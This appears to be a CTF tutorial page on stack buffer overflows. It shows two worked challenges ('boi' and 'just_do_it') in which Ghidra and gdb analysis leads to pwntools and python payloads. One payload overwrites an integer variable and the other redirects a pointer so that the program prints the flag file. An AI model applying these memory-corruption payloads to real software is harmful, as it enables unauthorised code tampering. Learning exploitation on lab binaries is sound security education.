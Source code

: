 # Variables

## Example 1 - Overwrite a variable

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Here we can see that according to Ghidra input is stored at offset `-0x38`. We can see that target is stored at offset `-0x24`. This means that there is a `0x14` byte difference between the two values.

```
read(0,&input,0x18);
```

Since we can write `0x18` bytes, that means we can fill up the `0x14` byte difference and overwrite four bytes (`0x18 - 0x14 = 4`) of `target`, and since integers are four bytes we can overwrite.

Taking a look at the memory layout in gdb gives us a better description. We set a breakpoint for directly after the `read` call and see what the memory looks like (read the address from ghidra):

```
b *0x4006a5
```

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Here we can see that our input `15935728` is `0x14` bytes away. When we give the input `00000000000000000000` + p32(`0xcaf3baee`). We need the hex address to be in least endian (least significant byte first) because that is how the elf will read in data, so we have to pack it that way in order for the binary to read it properly:

```
python2 -c 'print "0"*0x14 + "\xee\xba\xf3\xca"' > input
```

{% hint style="warning" %}
\n is 4 bytes
{% endhint %}

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

With all of that, we can write an exploit for this challenge:

```
from pwn import *

# Establish the target process
target = process('./boi')

# Make the payload
payload = b"0" * 0x14 + p32(0xcaf3baee)

# Send the payload
target.send(payload)

# Drop to an interactive shell so we can interact with our shell
target.interactive()
```

## Example 2 - Overwrite a variable address

&#x20;We can see that with the fgets call, we can input 32 bytes worth of data into `input`. Let's see how many bytes `input` can hold:

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main(undefined1 param_1)
             undefined         AL:1           <RETURN>                                XREF[1]:     0804861d(W)  
             undefined1        Stack[0x4]:1   param_1                                 XREF[1]:     080485bb(*)  
             FILE *            EAX:4          flagFile                                XREF[2]:     0804861d(W),
                                                                                                   08048655(W)  
             char              AL:1           local_EAX_154                           XREF[2]:     08048655(W),
                                                                                                   080486dd(W)  
             int               EAX:4          cmp                                     XREF[1]:     080486dd(W)  
             undefined4        Stack[0x0]:4   local_res0                              XREF[1]:     080485c2(R)  
             undefined4        Stack[-0xc]:4  local_c                                 XREF[1]:     08048704(R)  
             char *            Stack[-0x14]:4 target                                  XREF[2]:     0804860d(W),
                                                                                                   080486ee(W)  
             FILE *            Stack[-0x18]:4 flagHandle                              XREF[3]:     08048625(W),
                                                                                                   08048628(R),
                                                                                                   0804864b(R)  
             char[16]          Stack[-0x28]   vulnBuf                                 XREF[2]:     080486a6(*),
                                                                                                   080486d9(*)  
                             main                                            XREF[4]:     Entry Point(*),
                                                                                          _start:080484d7(*), 0804886c,
                                                                                          080488c8(*)  
        080485bb 8d 4c 24 04     LEA        ECX=>param_1,[ESP + 0x4]
```

So we can see that it can hold 16 bytes worth of data (0x28 - 0x18 = 16). So we effectively have a buffer overflow vulnerability with the fgets call to `input`. However it appears that we can't reach the `eip` register to get RCE. However we can reach `output_message` which is printed with a puts call, right before the function returns. So we can print whatever we want. That makes this code look really helpful:

```
  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    perror("file open error.\n");
    exit(0);
  }
  if ( !fgets(flag, 48, stream) )
  {
    perror("file read error.\n");
    exit(0);
  }
```

So we can see here that after it opens the `flag.txt` file, it scans in 48 bytes worth of data into `flag`. This is interesting because if we can find the address of `flag`, then we should be able to overwrite the value of `output_message` with that address and then it should print out the contents of `flag`, which should be the flag.

```
  .bss:0804A080 ; char flag[48]
.bss:0804A080 flag            db 30h dup(?)           ; DATA XREF: main+95o
.bss:0804A080 _bss            ends
.bss:0804A080
```

So here we can see that `flag` lives in the bss, with the address `0x0804a080`. There are 20 bytes worth of data between `input` and `output_message` (0x28 - 0x14 = 20). So we can form a payload with 20 null bytes, followed by the address of `flag`:

```
  python -c 'print "\x00"*20 + "\x80\xa0\x04\x08"' | ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
Welcome my secret service. Do you know the password?
Input the password.
flag{gottem_boyz}
```
